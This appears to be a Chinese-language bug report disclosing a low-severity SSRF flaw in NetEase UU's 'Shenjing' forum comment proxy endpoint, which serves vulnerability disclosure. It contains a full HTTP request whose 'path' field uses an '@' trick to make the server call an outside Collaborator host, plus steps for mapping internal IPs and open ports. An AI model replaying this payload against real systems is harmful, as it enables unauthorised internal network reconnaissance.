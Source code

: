 ```yaml
---
layout: post
title:  "低危：网易UU论坛深井Web版评论等功能存在SSRF漏洞"
date:   2023-09-20 10:26:18 +0800
categories: xss
---
```


## 漏洞名称

> 网易UU论坛深井Web版评论等功能存在SSRF漏洞

## 漏洞类型
> web漏洞，SSRF

## 危害等级
> 低危

## 漏洞URL
- POST https://sowellwell.com/w/v1/comment/proxy


## 关键数据包

    POST /w/v1/comment/proxy HTTP/2
    Host: sowellwell.com
    Cookie: jssdk_deviceid=xxx; _sj_web_session_id=xxx
    Content-Length: 351
    Identifier: jssdk_sD3SHpGpz24cW77h
    Accept: application/json, text/plain, */*
    Content-Type: application/json;charset=UTF-8
    Sec-Ch-Ua-Platform: "Windows"
    Origin: https://sowellwell.com
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://sowellwell.com/ts/1WF/4zM4?from=comment
    Accept-Encoding: gzip, deflate

    {"path":"@f5lknriqserdumix73rrr8s32u8lwbk0.oastify.com/like/apps/uu/server/create_like","method":"POST","params":{"uid":"140250100348","msg_id":"64ff26109bee0901b241c179","user_info":{"game_uid":"140250100348","name":"笠泽九斤翅子树","avatar":"https://uu.fp.ps.netease.com/file/64e4d0622935c59e9fcafa18xTIqMl0f05","user_type":1,"extra":""}},"id":"64fefa7c25eb02e49155e0a7","server_type":1}


## 漏洞描述
网易UU加速器论坛深井`https://sowellwell.com`的回复点赞等功能存在ssrf漏洞，攻击者能够通过该漏洞遍历内网机器和开放端口。

### 详细说明
请按照逻辑对漏洞复现进行描述，提供危害说明和测试步骤。若使用工具复现漏洞，应提供工具详情
#### 漏洞触发
1. 登录Web版深井账号，并且点开任意帖子并且发表评论或者对某评论进行点赞操作，同时用burpsuite记录点赞时的请求为POST请求`https://sowellwell.com/w/v1/comment/proxy`
![like](/assets/uu_ssrf/like.png)

2. 观察到请求体中有一个`path`字段，指向某个相对路径，于是尝试用@符号进行绕过。如下：

        某域名+/like/apps/uu/server/create_like = 完整url
        某域名+@攻击者控制的域名+/like/apps/uu/server/create_like = 攻击者url，而原始的域名则解析为账号字段
3. 将`path`字段修改为burp collaborator进行测试
        
        POST /w/v1/comment/proxy HTTP/2
        Host: sowellwell.com
        Cookie: jssdk_deviceid=xxx; _sj_web_session_id=xxx
        Content-Length: 351
        Identifier: jssdk_sD3SHpGpz24cW77h
        Accept: application/json, text/plain, */*
        Content-Type: application/json;charset=UTF-8
        Sec-Ch-Ua-Platform: "Windows"
        Origin: https://sowellwell.com
        Sec-Fetch-Site: same-origin
        Sec-Fetch-Mode: cors
        Sec-Fetch-Dest: empty
        Referer: https://sowellwell.com/ts/1WF/4zM4?from=comment
        Accept-Encoding: gzip, deflate

        {"path":"@f5lknriqserdumix73rrr8s32u8lwbk0.oastify.com/like/apps/uu/server/create_like","method":"POST","params":{"uid":"140250100348","msg_id":"64ff26109bee0901b241c179","user_info":{"game_uid":"140250100348","name":"笠泽九斤翅子树","avatar":"https://uu.fp.ps.netease.com/file/64e4d0622935c59e9fcafa18xTIqMl0f05","user_type":1,"extra":""}},"id":"64fefa7c25eb02e49155e0a7","server_type":1}

    collaborator接收到UU服务器发送的请求：
    ![collabo](/assets/uu_ssrf/collabo.png)

4. 获取内网域名

    将地址故意填错，可以观察到返回的错误字段包含内网域名信息，例如`path`字段填`abc`，服务器返回错误域名为：`in.mobile-community.uu.netease.comabc`，那么原始的域名为`in.mobile-community.uu.netease.com`

    ![domain](/assets/uu_ssrf/domain.png)

5. 获取域名IP地址
    
    通过dig命令可以查看该域名绑定的内网地址为`10.90.105.177`
    ![dig](/assets/uu_ssrf/dig.png)

6. 遍历内网IP

    获取启动的服务ip：
    ![valid](/assets/uu_ssrf/valid.png)

    未启动的服务ip：
    ![invalid](/assets/uu_ssrf/invalid.png)

7. 遍历内网开放端口

    以`10.90.105.241`为例，尝试遍历常见端口，发现端口8080开放
    ![ports](/assets/uu_ssrf/ports.png)

    
### 漏洞证明
请提供截图或视频

## 漏洞危害
1. 攻击者通过该漏洞遍历内网IP和端口开放信息，造成内网信息泄露
## 修复建议
1. 对潜在的请求`path`字段进行合法性校验

